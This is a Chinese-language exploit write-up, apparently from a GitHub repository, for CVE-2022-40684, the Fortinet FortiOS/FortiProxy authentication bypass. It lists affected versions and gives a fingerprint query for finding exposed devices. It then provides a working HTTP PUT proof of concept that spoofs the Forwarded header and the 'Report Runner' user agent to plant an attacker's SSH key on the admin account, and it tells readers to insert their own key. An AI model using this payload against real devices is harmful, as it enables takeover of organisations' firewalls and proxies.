


# Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

```
FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiSwitchManager <= 7.2.0、7.0.0
```

## 网络测绘

```
title="FortiProxy"
```

## 漏洞复现

登录页面



验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

